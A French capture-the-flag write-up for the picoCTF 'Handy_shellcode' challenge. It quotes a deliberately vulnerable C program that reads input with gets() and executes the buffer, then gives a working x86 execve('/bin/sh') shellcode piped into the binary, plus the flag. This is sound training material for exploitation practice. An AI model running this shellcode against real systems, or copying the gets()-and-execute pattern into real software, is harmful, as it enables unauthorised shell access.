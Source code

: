 # Binary_Exploitation_50_Handy_shellcode

------

### Titre : Handy_shellcode

### Points : 50

------

### Description 

Ce programme exécute n'importe quel shellcode que vous lui donnez. Pouvez-vous générer un shell et l'utiliser pour lire le fichier flag.txt ? (Merci à google translate :))

------

#### Hints

* vous pourrez peut-être trouver un bon shellcode en ligne. 

------

On se connecte vite en ssh sur le serveur shell.



### Résolution

---

Puis une fois sur le serveur on trouve les trois fichiers suivants : flag.txt, vuln.c vuln. Je commence d'abord par analyser le programme c :
```c
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
...
```

Ce programme utilise un buffer pour lire l'input de l'utilisateur on peut donc s'en servir pour envoyé un shellcode (Il s’agit donc essentiellement d’un morceau de code compilé arbitraire qui peut être injecté dans un programme afin d’engendrer un shell dans le système d’exploitation exécuté par le programme) aprés quelques recherches concernant le shellcode j'ai trouvé ce payload :
```bash
$ (echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; cat )  | ./vuln
```

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/handy_shell.png?token=AGO2MU5FXFV3CUFTW6EKPDK5WNMVA)


`picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`
